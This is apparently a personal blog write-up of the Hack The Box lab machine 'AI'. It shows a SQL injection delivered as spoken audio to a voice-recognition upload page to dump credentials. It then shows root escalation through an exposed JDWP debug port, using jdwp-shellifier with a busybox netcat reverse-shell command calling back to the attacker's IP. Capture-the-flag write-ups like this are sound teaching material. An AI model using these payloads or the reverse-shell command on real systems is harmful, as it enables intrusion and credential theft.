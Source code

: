 ```yaml
---
title: "AI - HackTheBox"
date: "2020-01-25"
tags: []
---
```

AI is a machine from Hack The Box with an exploitation method that I've never
seen before.

Let's start with the usual nmap scan:
```
$ nmap -A -T4 10.10.10.163
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-25 14:57 EST
Nmap scan report for 10.10.10.163
Host is up (0.059s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6d:16:f4:32:eb:46:ca:37:04:d2:a5:aa:74:ed:ab:fc (RSA)
|   256 78:29:78:d9:f5:43:d1:cf:a0:03:55:b1:da:9e:51:b6 (ECDSA)
|_  256 85:2e:7d:66:30:a6:6e:30:04:82:c1:ae:ba:a4:99:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Hello AI!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

While visiting the website, the only thing that might be interesting is in
[ai.php](http://10.10.10.163/ai.php):
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/ai/upload.png)

After uploading a random wav file found on the internet, we get this output:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/ai/randomfile.png)

It looks like there's an online service that does voice recognition and uses
its output to perform a query, and given that in our text there are single
quotes (for example in the verb *wouldn't*), a SQL error has been triggered.

Also, running a web discovery tool allows us to find
[intelligence.php](http://10.10.10.163/intelligence.php):
```
$ gobuster dir -q -r -w lists/raft-small-words-lowercase.txt -x php,html -s 200 -u http://10.10.10.163
/index.php (Status: 200)
/contact.php (Status: 200)
/db.php (Status: 200)
/about.php (Status: 200)
/. (Status: 200)
/ai.php (Status: 200)
/intelligence.php (Status: 200)
```

Here is the page:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/ai/instructions.png)

We can try to exploit this by recording an audio ourself or using text to speech
services. I will use [text2speech](https://www.text2speech.org/) with these
options:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/ai/text2speech.png)

Following the guide and after many, many attempts, I've come up with the
following payload:
```
open single quote space union select space username from users comment database
```

And the result is:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/ai/username.png)

And this payload:
```
open single quote space union select password from users comment database
```

gives us the password:
![](https://res.cloudinary.com/dytfhf4l8/image/upload/blog/hackthebox/ai/password.png)

Let's try to connect with SSH:
```
alexa@AI:~$ wc -c user.txt
33 user.txt
```
And there's the user flag!

## Privilege escalation

Running the usual recon commands, we can see with `ps aux` an interesting
process running as root:
```
root     128367 21.1  4.7 3108796 95460 ?       Sl   16:06   0:03 /usr/bin/java
-Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties
-Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
-Djdk.tls.ephemeralDHKeySize=2048
-Djava.protocol.handler.pkgs=org.apache.catalina.webresources
-Dorg.apache.catalina.security.SecurityListener.UMASK=0027
-agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n
-Dignore.endorsed.dirs= -classpath
/opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/apache-tomcat-9.0.27/bin/tomcat-juli.jar
-Dcatalina.base=/opt/apache-tomcat-9.0.27
-Dcatalina.home=/opt/apache-tomcat-9.0.27
-Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp
org.apache.catalina.startup.Bootstrap start
```

A quick google search gives us
[this](https://github.com/IOActive/jdwp-shellifier) exploit that allows
arbitrary code execution. After downloading it on our machine, we have to
forward the port 8000 on the remote machine to our machine, because the service
is running on localhost so we cannot reach it from outside. Let's do so with
`ssh -L 8000:localhost:8000 alexa@10.10.10.163`. Let's start a netcat listener
and run the exploit:
```
$ ./jdwp-shellifier.py -t localhost -p 8000 --cmd 'busybox nc 10.10.14.81 1337 -e /bin/bash'
[+] Targeting 'localhost:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=b8f
[+] Found Runtime.getRuntime(): id=7ff73403e880
[+] Created break event id=2
[+] Waiting for an event on 'java.net.ServerSocket.accept'
[+] Received matching event from thread 0x1
[+] Selected payload 'busybox nc 10.10.14.81 1337 -e /bin/bash'
[+] Command string object created id:c34
[+] Runtime.getRuntime() returned context id:0xc35
[+] found Runtime.exec(): id=7ff73403e8b8
[+] Runtime.exec() successful, retId=c36
[!] Command successfully executed
```


And we got a shell as root! Let's get the flag:
```
$ nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.163.
Ncat: Connection from 10.10.10.163:45658.
whoami
root
wc -c /root/root.txt
33 /root/root.txt
```

Quick and easy, thanks for reading!
